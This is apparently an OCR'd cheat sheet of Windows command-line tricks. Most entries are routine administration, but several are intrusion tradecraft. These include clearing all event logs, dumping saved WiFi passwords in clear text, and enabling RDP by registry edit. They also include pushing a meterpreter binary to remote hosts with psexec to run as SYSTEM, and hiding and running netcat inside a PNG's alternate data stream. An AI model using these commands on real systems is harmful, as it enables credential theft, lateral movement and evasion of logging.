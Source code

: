 Alternate Data Streams and PS
Run the Windows Assessment tool for cpu and ram and disk
Port forward (proxy) traffic to remote host and port
Enable/Disable NetBIOS over TCP/IP
List ALL services AND their binaries

C:\>for /F "tokens=2* delims= " %i in ('sc query ^| find /I "ce_name"') do @sc qc %i %j
Clear All Windows Events Using PowerShell - Privacy

Powershell Run as Administrator : wevtutil el | Foreach-Object {wevtutil cl "$_"}
List Connected Wifi Password in Text WINDOWS

Run as Administrator : netsh wlan show profile
then use the connected wifi name like this example ( wifi_ex ) : netsh wlan show profile wifi_ex key=clear
Case Sensitive + if key content shows numbers, use hexadecimal decode to get text form of password


Enable remote desktop using reg

C:\>reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
Enable the boot log to see list of drivers loaded during startup

C:\>bcdedit /set bootlog yes

Read via %windir%\ntbtlog.txt
Set Time Zone of the system clock

C:\>tzutil /s "Eastern Standard Time"

List available Time zones:
C:\> tzutil /l
Lock Windows desktop using command line

C:\>rundll32 user32.dll,LockWorkStation
Force copy meterpreter binary to remote machines & run as system

C:\>psexec @$ips.txt -s -u adminuser -p pass -f -c \exploits\mp.exe
List unsigned dlls for a specific process. For system wide list, remove the process name

C:\>listdlls -u explorer.exe
Open the System Properties window, with the 'Advanced' tab selected

C:\>control sysdm.cpl,,3
Change the number for different tabs.
Using the dir command to find Alternate Data Streams

C:\>dir /R | find ":$D"

Using streams #sysinternals (shows path):
C:\> streams -s .
Get list of startup programs using wmic

C:\>wmic startup list full
Add a binary to an Alternate Data Stream

C:\>type c:\tools\nc.exe > c:\nice.png:nc.exe
Execute it (XP/2K3):
C:\> start c:\nice.png:nc.exe
Execute a binary Alternate Data Stream (Win 7/ 2008) using wmic

